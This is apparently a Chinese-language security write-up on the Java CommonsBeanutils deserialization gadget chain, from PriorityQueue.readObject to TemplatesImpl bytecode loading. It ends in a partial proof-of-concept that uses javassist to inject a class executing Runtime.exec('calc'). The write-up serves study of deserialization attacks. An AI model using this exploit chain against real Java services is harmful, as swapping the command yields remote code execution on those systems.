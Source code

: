 还是从PriorityQueue类的readObject方法出发

![image-20220307225701628](C:\Users\ga't'c\AppData\Roaming\Typora\typora-user-images\image-20220307225701628.png)、

跟进heapify

```
private void heapify() {
    for (int i = (size >>> 1) - 1; i >= 0; i--)
        siftDown(i, (E) queue[i]);
}
```

跟进siftDown

![image-20220307225727987](C:\Users\ga't'c\AppData\Roaming\Typora\typora-user-images\image-20220307225727987.png)

跟进siftDownUsingComparator方法，这里的comparator要通过反射来赋值，为什么在CC2里面也说过了

![image-20220307225910092](C:\Users\ga't'c\AppData\Roaming\Typora\typora-user-images\image-20220307225910092.png)

这里调用了compare方法，跟进

![image-20220307225933400](C:\Users\ga't'c\AppData\Roaming\Typora\typora-user-images\image-20220307225933400.png)

通过这里来触发TemplatesImpl的getOutputProperties，中间的流程就不做具体分析了

![image-20220307230035451](C:\Users\ga't'c\AppData\Roaming\Typora\typora-user-images\image-20220307230035451.png)

跟进newTransformer后就是加载字节码的操作了

## 漏洞复现

POC

```
package CB;

import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import javassist.ClassPool;
import javassist.CtClass;
import org.apache.commons.beanutils.BeanComparator;
import java.io.*;
import java.lang.reflect.Field;
import java.util.PriorityQueue;

public class Unser {
    public static void setFieldValue(Object object, String fieldName, Object value) throws Exception{
        Field field = object.getClass().getDeclaredField(fieldName);
        field.setAccessible(true);
        field.set(object, value);
    }

    public static void main(String[] args) throws Exception {
        ClassPool pool = ClassPool.getDefault();
        CtClass STU = pool.makeClass("T0WN");
        String cmd = "java.lang.Runtime.getRuntime().exec(\"calc\");";
        STU.makeClassInitializer().insertBefore(cmd);
        STU.setSuperclass(pool.get(AbstractTranslet.class.getName()));
        STU.writeFile();
        byte[] bytes = STU.toBytecode();

        TemplatesImpl templates = new TemplatesImpl();
        setFieldValue(templates, "_bytecodes", new byte[][]{bytes});
```
